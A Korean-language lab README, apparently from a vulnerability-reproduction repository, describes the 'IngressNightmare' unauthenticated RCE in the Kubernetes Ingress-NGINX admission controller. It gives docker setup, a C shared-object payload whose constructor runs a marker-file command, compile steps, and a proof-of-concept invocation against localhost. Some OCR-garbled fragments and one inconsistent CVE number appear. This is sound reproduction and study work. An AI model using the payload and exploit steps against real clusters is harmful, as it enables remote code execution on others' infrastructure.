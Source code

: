 # Kubernetes Ingress-NGINX 인증되지 않은 원격 코드 실행(CVE-2025-1974)

Ingress-NGINX: NGINX를 역방향 프록시 및 로드 밸런서로 사용하는 Kubernetes 용 인그레스 컨트롤러

"IngressNightmare" 취약점(CVE-2025-1974)은 수신되는 Ingree 리소스의 유효성을 검사하는 쿠버네티스의 핵심 보안 메커니즘인 Ingress-NGINX Admission Controller 의 치명적인 결함에서 비롯된다.

이 컨트롤러는 인증 없이도 네트워크에 노출되어 공격자가 악성 AdmissionReview 요청을 조작하고 Ingress 리소스에 무단 구성을 삽입할 수 있도록 한다.

다른 취약점(CVE-2025-24514, CVE-2024-1097 또는 CVE-2025-1098)과 연계될 경우 원격 코드 실행으로 이어질 수 있다.

일부 악용 가능한 체인은 다음과 같다.

CVE-2025-1974+CVE-2025-24514: <kbd>auth-url</kbd> 주석 주입을 통한 RCE

CVE-2025-1974+CVE-2025-1097: <kbd>auth-tls-match-cn</kbd> 주석을 통한 RCE

CVE-2025-1974+CVE-2025-1098: 이미지 UID 남용을 통한 RCE

## 환경 설정
취약점을 시뮬레이션 하기 위해 단순성을 위해 K3s 기반 Kubernetes 환경이 사용된다

```
docker compose up -d
```

쿠버네티스 API가 준비되고 Ingress-nginx 컨트롤러가 시작될 때까지 기다린다.
환경이 시작되면, Ingress-NGINX는 30080번과 30443번 포트(TLS)에서 수신 대기하고, Ingress-NGINX Admission Controller는 30443번 포트이다.

## 취약성 재생산
<kbd>.so</kbd> 먼저, 컨테이너의 아키텍처와 일치하는 공유 객체( ) 페이로드를 컴파일해야 한다.
```
#include<stdio.h>
#include<stdlib.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    system("touch /tmp/hacked");
}
```

1. 소스 코드 컴파일

```
gcc -shared -fPIC -o shell.so shell.c
```

2. 위의 소스 코드를 적절한 환경으로 컴파일한 후 exploit.py를 사용하여 취약점을 악용

```
python3 poc.py -a https://localhost:30443/networking/v1/ingresses -i http://localhost:30080/fake/addr -s shell.so
```
<kbd>AdmissionReview</kbd> exploit은 NGINX가 악성 동적 공유 객체를 로드하도록 강제하는 지시어 주입 요청을 위조하여 작동한다.

exploit이 성공하면 ingress-nginx 컨테이너 내부에 파일이 <kbd>ssl_engine</kbd> 생성되는 것을 확인할 수 있다.








